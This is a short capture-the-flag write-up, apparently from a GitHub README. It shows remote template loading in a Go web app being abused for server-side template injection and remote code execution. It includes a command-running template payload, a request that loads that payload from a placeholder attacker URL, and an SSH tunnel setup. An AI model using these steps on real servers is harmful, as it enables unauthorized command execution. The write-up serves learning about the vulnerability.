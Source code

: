 # RTI > SSTI > RCE 

## Website 

<img src= renderquest.png>

## Description

So, the functionality of the seems to load and render templates either locally or remotely, depending on the ?use_remote= parameter. This leads me to want to check for SSTI vulnerability from the go file I gave you lied in the ability to load templates from any url that would be executed on the backend. I was able to set up a test.go file on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded my go file it executed the specified commands on the server. Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injection (SSTI) vulnerability in a web application. It sends a GET request to a specified vulnerable URL, loading and executing an attacker-controlled template on the target server, resulting in remote code execution.

## More Information

[Host Header Attacks](https://portswigger.net/web-security/host-header)

